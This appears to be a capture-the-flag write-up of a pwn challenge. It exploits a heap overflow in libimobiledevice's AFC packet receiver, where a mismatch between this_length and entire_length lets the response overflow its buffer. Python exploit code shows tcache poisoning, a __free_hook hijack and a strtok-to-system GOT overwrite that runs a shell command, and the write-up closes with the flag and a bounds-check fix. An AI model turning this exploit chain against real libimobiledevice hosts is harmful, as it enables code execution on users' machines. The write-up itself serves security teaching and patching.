



**Category:** Pwn
**Binary:** `afc_list` (x86-64, No PIE, Partial RELRO, NX, stack canary, IBT/SHSTK)
**Vulnerability:** Heap overflow in `libimobiledevice`'s AFC packet receiver (`entire_length` vs `this_length` mismatch) → tcache poisoning → `__free_hook` = `ret` → GOT overwrite (`strtok` → `system`) → `/readflag`

## Summary

`afc_list` is an interactive AFC (Apple File Conduit) client built on `libimobiledevice`. It plays the *host* role and drives the library against whatever is connected to fd 0 — normally a real iOS device, but here nsjail hands it a bidirectional socket to us. That means **we play the device**: every AFC response the library parses is one we forged ourselves.

Two bugs were found. `read_line` in the challenge binary has a classic unbounded stack write, but the binary ships with IBT/SHSTK (shadow stack), which kills the usual saved-RIP ROP path. The bug actually used for the win is inside the vendored `libimobiledevice` source: `afc_receive_data` allocates a heap buffer sized by one attacker-controlled field and then `recv()`s a *different*, larger attacker-controlled field into it. That single heap overflow was enough to poison tcache twice, install a `ret` gadget at `__free_hook`, and overwrite `strtok@GOT` with `system` — turning the very next command line typed at the `afc>` prompt into a shell command.

## Vulnerability / Bug

### Bug 1 — Stack buffer overflow in `read_line` (found, not used)

```c
static int read_line(int fd, char *out, int max)
{
    char tmp[256];
    int n = 0;
    for (;;) {
        char c;
        ssize_t r = read(fd, &c, 1);
        if (r <= 0) return n ? n : -1;
        if (c == '\n') break;
        if (c == '\r') continue;
        tmp[n++] = c;        // no bound check on n
    }
    tmp[n] = '\0';
    if (n > max - 1) n = max - 1;   // only caps the later memcpy, not the loop above
    memcpy(out, tmp, n);
    out[n] = '\0';
    return n;
}
```

`tmp[256]` is filled one byte at a time with no upper bound — the loop only stops on `\n` or EOF. Sending 265+ bytes before a newline walks past `tmp`, through 8 bytes of padding, into the stack canary, saved RBP, and the return address. Confirmed with GDB: a 300-byte payload triggers `__stack_chk_fail` with frame `#9` showing `0x4141414141414141` in place of the return address.

This is a real bug, but the binary is built with SHSTK (shadow stack): even with the canary defeated, `ret` cannot land on an attacker-controlled address that doesn't match the CPU's shadow copy. Straight ROP off this overflow was abandoned in favor of the heap primitive below.

### Bug 2 — `this_length > entire_length` in `afc_receive_data` (the real bug)

`libimobiledevice/src/afc.c:295-314`:

```c
ret = service_receive(client->parent, (char*)&header, sizeof(AFCPacket), &bytes_recv);

uint32_t entire_len = header.entire_length - sizeof(AFCPacket);  // sizes the malloc
uint32_t this_len   = header.this_length   - sizeof(AFCPacket);  // sizes the recv

char *buf = malloc(entire_len);                 // allocates entire_len bytes
ret = service_receive(client->parent, buf, this_len, &bytes_recv);  // reads this_len bytes
```

There is no `assert(this_len <= entire_len)`. Both fields come straight from the AFC response header — and since `afc_list` treats fd 0 as "the device," **we control every byte of every AFC response**, including this header. Sending `entire_length` small and `this_length` large makes the library allocate a tiny chunk and then write far more data than it holds, corrupting whatever heap metadata sits right after it.

```python
ENTIRE_DATA = 0x10     # malloc(0x10)
THIS_DATA   = 0x400     # recv(buf, 0x400, ...) into a 0x10-byte buffer
# overflow = 0x400 - 0x10 = 0x3F0 bytes past the allocation
```

Sent naively this just smashes the top chunk (`malloc(): corrupted top size`). Sent *precisely*, it becomes a tcache-poisoning primitive.

## Exploit Strategy

The binary is No PIE, and the jail hook (`hook.sh`) patches nsjail's config to add `persona_addr_no_randomize: true` — ASLR is fully disabled for the process. Combined with a fixed, supplied `libc.so.6`, every address (binary, heap, libc) is deterministic before the exploit even runs.



### Phase 1 — Prime the tcache bins

Every `ls <path>` triggers `afc_receive_data` (`malloc(entire_len)` + `recv`), then frees the buffer, the `strdup`'d directory-entry strings, and the listing array — all landing in tcache once `ls` completes. `ls /` in this jail lists 24 entries, which conveniently makes the library's own `malloc`/`calloc`/`strdup` calls line up on the 0x50 and 0x60 tcache bins we need.

```python
def prime_tcache_0x60(afc):
    payload = b"Q" * 0x48 + b"\0" + b"\0" * 8
    payload = payload.ljust(0x50, b"R")
    afc.reply_data(afc.request(b"ls /"), payload)

def prime_tcache_0x50(afc):
    payload = b"A" * 0x38 + b"\0" + b"\0" * 6
    payload = payload.ljust(0x40, b"B")
    afc.reply_data(afc.request(b"ls /"), payload)
```

Both calls answer the library's own AFC request with a *valid* `entire_len == this_len` response — no overflow yet. The NUL placement inside the payload controls how many directory entries `make_strings_list` thinks it parsed, which controls how many extra `strdup` chunks get freed into which bin.

### Phase 2 — Poison the freelist with the heap overflow

With chunk sizes now recycling through tcache, a *third* `ls /` reuses Bug 2: `entire_len` is set small enough that `malloc` pulls the chunk straight back out of tcache (same address as before), and `this_len` is set larger so the `recv` overflow writes past that chunk's user data into the **next freed chunk's header and forward pointer**.



<style>
.ppp-tbl { border-collapse: collapse; width: 100%; font-family: monospace; font-size: 0.85em; margin: 1em 0; }
.ppp-tbl th { background: #2563eb; color: #fff; padding: 6px 10px; text-align: left; border: 1px solid #444; }
.ppp-tbl td { padding: 5px 10px; border: 1px solid #444; }
.ppp-fill { background: rgba(34,197,94,0.15); }
.ppp-hdr  { background: rgba(234,179,8,0.20); }
.ppp-fd   { background: rgba(239,68,68,0.25); }

@keyframes ppp-write { from { opacity:0; background: transparent; } 50% { background: rgba(239,68,68,0.7); } to { background: rgba(239,68,68,0.35); } }
.ppp-anim-row { display: flex; align-items: center; margin: 3px 0; font-family: monospace; font-size: 0.82em; }
.ppp-anim-lbl { width: 110px; color: #888; flex-shrink: 0; }
.ppp-anim-cell {
  padding: 3px 8px; margin-right: 4px; border: 1px solid #555; border-radius: 3px;
  opacity: 0; animation: ppp-write 0.6s ease-out forwards;
}
</style>

<table class="ppp-tbl">
<tr><th>Offset (from poisoned chunk's user data)</th><th>Bytes</th><th>Meaning</th></tr>
<tr class="ppp-fill"><td>0x00 – 0x0f</td><td>filler</td><td>lands inside the reused chunk (chunk A)</td></tr>
<tr class="ppp-hdr"><td>0x10 – 0x17</td><td><code>prev_size</code></td><td>next chunk's (B's) prev_size — kept consistent</td></tr>
<tr class="ppp-hdr"><td>0x18 – 0x1f</td><td><code>size|PREV_INUSE</code></td><td>chunk B's own size field — kept intact</td></tr>
<tr class="ppp-fd"><td>0x20 – 0x27</td><td><code>fd</code> pointer</td><td>overwritten with the poison target</td></tr>
</table>

<div class="ppp-anim-row" style="margin-top:1em"><span class="ppp-anim-lbl">before overflow</span>
<span class="ppp-anim-cell" style="animation-delay:0.0s; background:rgba(34,197,94,0.15)">B.fd -> next free chunk</span></div>
<div class="ppp-anim-row"><span class="ppp-anim-lbl">recv() overflow</span>
<span class="ppp-anim-cell" style="animation-delay:0.3s">writing 0x3f0 bytes...</span></div>
<div class="ppp-anim-row"><span class="ppp-anim-lbl">after overflow</span>
<span class="ppp-anim-cell" style="animation-delay:0.9s">B.fd -> __free_hook - 0x48</span></div>

Two poisoning rounds are needed: one places a fake tcache entry at `__free_hook - 0x48` (0x60 bin), the other at `strtok@GOT` (0x50 bin). Each poisoned bin is then drained with two more `malloc`s from the library's own allocation pattern — the first `malloc` returns the *real* chunk, restoring the bin's head to the forged pointer; the second `malloc` returns the forged address itself, letting our next AFC response write directly there.

### Phase 3 — `__free_hook` = `ret`

```python
def install_free_hook_ret(afc):
    target = LIBC_FREE_HOOK - 0x48
    token = b"H" * 0x48 + p64(LIBC_RET)[:6]
    payload = bytearray(token + b"\0")
    payload = payload.ljust(0x60, b"D")
    payload += p64(target)
    afc.reply_data(afc.request(b"ls /"), payload, entire_len=0x50)
```

Why `__free_hook = ret` at all, if the goal is a GOT overwrite? Writing directly to `strtok@GOT` with a 0x40-byte AFC "file open" response is itself built on a `malloc`/`free` pair inside the library's `read` command path — that path calls `free()` on internal buffers before the exploit is finished with them. Redirecting `__free_hook` to a harmless `ret` gadget neutralizes those library-internal frees so they don't corrupt state (or crash) while the arbitrary-write chunk for `strtok@GOT` is still in flight.

### Phase 4 — `strtok@GOT` → `system`, while preserving `stdout`

The arbitrary write primitive comes from the `read <path>` command's file-open response — it lets us write 0x40 bytes to any address via the library's file-handle bookkeeping:

```python
def arb_write_0x40_via_read(afc, target, data):
    open_res = b"\x01" + b"F" * 0x4F + p64(target)
    pkt_num = afc.request(b"read /x")
    afc.r.send(pkt(0x40, len(open_res), pkt_num, AFC_OP_FILE_OPEN_RES, open_res))
    pkt_num, op, _ = afc.recv_afc_request()
    afc.r.send(pkt(0x40, 0x40, pkt_num, AFC_OP_STATUS, p64(1).ljust(0x40, b"\0")))
    pkt_num, op, _ = afc.recv_afc_request()
    afc.reply_data(pkt_num, data.ljust(0x40, b"\0"), entire_len=0x40)
```

`strtok@GOT` sits at `0x4040b0`; the binary's COPY-relocated `stdout` pointer sits right after it at `0x4040e8`. A naive 0x40-byte write starting at `0x4040b0` reaches all the way to `0x4040f0` — far enough to clobber `stdout` and crash the process before the trigger line is even read. The fix is to include the *correct* value for `_IO_2_1_stdout_` at the tail of the write so it round-trips unchanged:

```python
def hijack_strtok_to_system(afc):
    payload = flat(
        LIBC_SYSTEM,
        0, 0, 0, 0, 0, 0,
        LIBC_STDOUT_FILE,   # preserve the COPY-relocated stdout pointer at +0x38
    )
    arb_write_0x40_via_read(afc, GOT_STRTOK, payload)
```

### Phase 5 — Trigger

`main`'s command loop calls `strtok(line, " ")` on every line typed at `afc>` to split it into `cmd`/`arg`/`arg2`. With `strtok@GOT` now pointing at `system`, the very next line becomes a shell command instead of a parse call:

```python
def trigger_flag(afc):
    afc.r.sendline(b"/readflag${IFS}sekai${IFS}ppp")
```

`${IFS}` stands in for spaces since `system` invokes `/bin/sh -c`, and the line itself never touches `strtok` — it *is* the `system()` argument.



## Result

```text
SEKAI{du_bist_gut_genuggggggggggggg}
```

Confirmed against the local Docker jail (`python3 solve.py`) and remote (`python3 solve.py REMOTE`).

## Fix / Mitigations

| Protection | Status | Notes |
|---|---|---|
| Missing bounds check | **Root cause** | `afc_receive_data` never validates `this_length <= entire_length` before `recv`-ing into a buffer sized by `entire_length` |
| Stack Canary | Enabled | Blocks naive `read_line` overflow; irrelevant to the actual exploit path |
| IBT / SHSTK | Enabled | Killed the stack-ROP path entirely — the reason the exploit pivoted to a pure heap/GOT primitive |
| PIE | **Disabled** | All binary addresses fixed at `0x400000`, simplifying the GOT overwrite target |
| RELRO | **Partial** | GOT remains writable — `strtok@GOT` overwrite would be impossible under Full RELRO |
| ASLR | **Disabled** in jail (`persona_addr_no_randomize`) | Made every libc/heap address deterministic; a real deployment must leak libc first |
| Safe-Linking | Not present (glibc 2.31) | tcache `fd` pointers are raw pointers, so a single heap overflow can poison a freelist entry directly |

The actual fix is a one-line bounds check in `afc_receive_data`:

```c
if (this_len > entire_len) {
    free(buf);
    return AFC_E_INTERNAL_ERROR;
}
```
